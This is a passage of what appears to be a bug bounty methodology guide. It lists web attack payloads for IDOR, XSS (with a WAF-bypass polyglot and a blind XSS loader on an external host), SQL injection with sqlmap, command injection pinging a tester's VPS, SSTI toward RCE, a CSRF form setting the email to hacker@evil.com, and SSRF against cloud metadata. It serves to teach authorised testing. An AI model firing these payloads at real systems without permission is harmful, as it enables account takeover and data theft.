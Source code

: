 **Output**: Save results in organized folders (e.g., `recon/target.com/subdomains.txt`, `recon/target.com/urls.txt`). Use the provided script for automation.

#### 3. **Vulnerability Discovery**
Test systematically across the attack surface. Combine manual and automated approaches for efficiency.

- **Broken Access Control/IDOR**:
  - Enumerate IDs/UUIDs in requests (e.g., `/api/user/123` → `/api/user/124`).
  - Use Burp’s Autorize to automate privilege escalation tests across roles.
  - Check for horizontal (same-level users) and vertical (user-to-admin) access.
  - Example: Change `user_id=123` to `user_id=124` in API calls; verify PII exposure.

- **Cross-Site Scripting (XSS)**:
  - **Stored**: Inject payloads like `<script>alert(document.cookie)</script>` or polyglots in inputs (e.g., comments, profiles).
    ```javascript:disable-run
    javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'
    ```
  - **Reflected**: Test query parameters (e.g., `?search=<script>alert(1)</script>`).
  - **DOM-Based**: Use `domdig` or analyze JS with `grep -r "document.write" *.js`.
  - **Blind XSS**: Use a payload server like XSS Hunter (`<script src="https://yoursite.xss.ht"></script>`).
  - **Bypass WAF**: Encode payloads (e.g., `<scr<script>ipt>`), use event handlers (`onerror`, `onmouseover`), or chain with CSRF.

- **Injection Attacks**:
  - **SQL Injection**:
    - Test inputs with payloads like `' OR 1=1--`, `1' UNION SELECT 1,2,3--`.
    - Use `sqlmap` for automation: `sqlmap -u "http://target.com/page?id=1" --batch`.
    - Check for blind SQLi with time-based payloads: `' AND SLEEP(5)--`.
  - **Command Injection**:
    - Test parameters with `;whoami`, `|ping -c 3 yourvps.com`.
    - Use Burp Intruder with payloads like `$(whoami)`, `&& id`.
  - **SSTI (Server-Side Template Injection)**:
    - Inject `{{7*7}}` or `${{7*7}}` in input fields; look for `49` in response.
    - Escalate to RCE with payloads like `{{config.__class__.__init__.__globals__}}` (Flask/Jinja2).

- **CSRF**:
  - Check for missing/invalid tokens: Submit forms with tampered or no tokens.
  - Test token predictability (e.g., static tokens across sessions).
  - Craft PoC HTML:
    ```html
    <form action="http://target.com/update" method="POST">
      <input type="hidden" name="email" value="hacker@evil.com">
      <input type="submit">
    </form>
    ```

- **SSRF (Server-Side Request Forgery)**:
  - Test URL parameters (e.g., `?url=http://localhost`) or file uploads.
  - Target internal services: `http://169.254.169.254` (AWS metadata), `http://internal.target.com`.
  - Use `collaboratorclient` in Burp to detect blind SSRF.
